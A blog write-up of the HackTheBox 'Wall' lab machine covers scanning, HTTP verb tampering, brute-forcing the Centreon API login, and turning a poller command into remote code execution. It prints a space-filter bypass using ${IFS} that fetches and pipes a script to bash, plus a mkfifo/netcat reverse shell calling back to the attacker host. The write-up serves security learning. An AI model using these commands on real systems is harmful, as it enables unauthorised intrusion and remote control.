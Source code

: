 ```yaml
---
Title: HackTheBox Wall
Date: 2019-12-07
Category: Challenges
Status: published
---
```


Wall was as much a fun and educational box as it was frustrating and stretching my patience. It felt like the system was updated by the creator to have some features in place meant to annoy people trying to break in. Nevertheless, there are some nice WAF evasion techniques to consider here, as well as the lesson to never give up on enumeration Starting with a SYN scan, executing scripts where possible:

```sh
# nmap -sS -sC -v -oN wall.nmap 10.10.10.157

# Nmap 7.80 scan initiated Thu Dec  5 13:32:45 2019 as: nmap -sS -sC -v -oN wall.nmap 10.10.10.157
Increasing send delay for 10.10.10.157 from 0 to 5 due to 193 out of 642 dropped probes since last increase.
Nmap scan report for 10.10.10.157
Host is up (0.10s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works

Read data files from: /usr/bin/../share/nmap
# Nmap done at Thu Dec  5 13:33:04 2019 -- 1 IP address (1 host up) scanned in 18.50 seconds
```

SSH seems to support password-based login - just taking a note here. Port 80 shows the default Apache HTML page. Nothing special. Firing up Dirbuster with a medium-sized wordlist brings up some interesting results, however.

![Screenshot]({static}/images/screenshot-from-2019-12-05-16-58-01.png){: .image-process-article-image}

The PHP files simply return boring hardcoded strings that don't carry any meaningful information:

![Screenshot]({static}/images/screenshot-from-2019-12-05-15-05-55.png){: .image-process-article-image}

`/monitoring/` looks interesting however. It has HTTP basic auth enabled. If we try different HTTP verbs on this endpoint, we find the following:

```sh
# curl -X POST http://10.10.10.157/monitoring/
HTTP/1.1 200 OK
Accept-Ranges: bytes
Connection: Keep-Alive
Content-Encoding: gzip
Content-Length: 146
Content-Type: text/html
Date: Thu, 05 Dec 2019 15:56:30 GMT
ETag: "9a-58ccea50ba4c6-gzip"
Keep-Alive: timeout=5, max=100
Last-Modified: Wed, 03 Jul 2019 22:47:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding

<h1>This page is not ready yet !</h1>
<h2>We should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```

Basic authentication was only enabled for GET requests and we get a redirect page to `/centreon`, which, admittedly, was not part of my wordlist. :(

![Screenshot]({static}/images/screenshot-from-2019-12-05-16-57-05.png){: .image-process-article-image}

We directly see the version here, `19.04.0`. A quick Google search reveals an [authenticated remote code execution exploit](https://www.exploit-db.com/exploits/47069) is available. Noted. Now we just have to find a login. The default credentials, `admin:centreon` do not work. After having looked everywhere, losing a good two hours in the process, the only chance seems to be brute force. In the Centreon API documentation we find [a section on how to authenticate](https://documentation.centreon.com/docs/centreon/en/19.04/api/api_rest/index.html#authentication). With that, let's fire up `wfuzz` and try some common passwords, assuming the default username, admin, has been kept in place.

```sh
$ wfuzz -w ../seclists/Passwords/Common-Credentials/10k-most-common.txt -c -d "username=admin&password=FUZZ" --hc 403 '10.10.10.157/centreon/api/index.php?action=authenticate'
********************************************************
* Wfuzz 2.4.2 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.157/centreon/api/index.php?action=authenticate
Total requests: 10000

===================================================================
ID           Response   Lines    Word     Chars       Payload
===================================================================

000000621:   200        0 L      1 W      60 Ch       "password1"
```

That was quick. Now we can login. Checking out the functionality of Centreon, it is an application to monitor the state of hosts and manage infrastructure in general. The RCE code in the ExploitDB link above needed to be updated due to the additional sanitisation the challenge creator (who also is the exploit author!) added to the input field we need.

I'd like to show an additional exploit though, where you game the system with the functionality it already provides. As an admin you have permissions to edit pollers. A poller can have a post-generation command attached to it. This is probably used for initialisation in legitimate use cases. For us, this already carries all the RCE capabilities we need.

The input for the command to execute is sanitised and no spaces are allowed. We can easily circumvent this by referencing the [internal field separator](https://en.wikipedia.org/wiki/Internal_field_separator) variable in the shell environment we're later executing the command in. Our filled out command passing the WAF now looks like this:

![Screenshot]({static}/images/screenshot-from-2019-12-07-17-01-51.png){: .image-process-article-image}

For convenient copy-paste, that is:

```sh
wget${IFS}-qO-${IFS}http://10.10.14.13/legitfile${IFS}|${IFS}bash;
```

Our payload file we'll download with `wget` contains the following code:

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.13 4444 >/tmp/f
```

At the same time we fire up a simple HTTP server and a netcat listener on our attacker machine. Now we head to the poller overview and edit the default one to include our new post-generation command. Then we export it's configuration. We don't even want to generate the config files here, just running the post generation command is enough. Our server and listener are already waiting.

![Screenshot]({static}/images/screenshot-from-2019-12-07-17-01-22.png){: .image-process-article-image}

Hitting export, we notice the post-generation command is freezing. This means we most likely got an open connection:

![Screenshot]({static}/images/screenshot-from-2019-12-07-17-01-01.png){: .image-process-article-image}

![Screenshot]({static}/images/screenshot-from-2019-12-07-17-01-10.png){: .image-process-article-image}

Our `id` is

```
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)
```

And `/etc/passwd` shows an interesting entry where the user flag might be:

```
shelby:x:6001:6001::/home/shelby:/bin/bash
```

We don't have permissions to access the file. Using [LinEnum](https://github.com/rebootuser/LinEnum) for enumeration we stumble across some interesting versions, among them screen 4.5.0 for which we have a [local privilege escalation exploit](https://www.exploit-db.com/exploits/41154) available. From there all it took was downloading the code through the Python HTTP server, executing it, and using the root privileges to access the user and the root flag. Wow, that was a quick escalation after such a painstaking process of enumeration and getting the initial shell. But at least I have learned about `${IFS}` and some other means of bypassing filters for my future payloads.
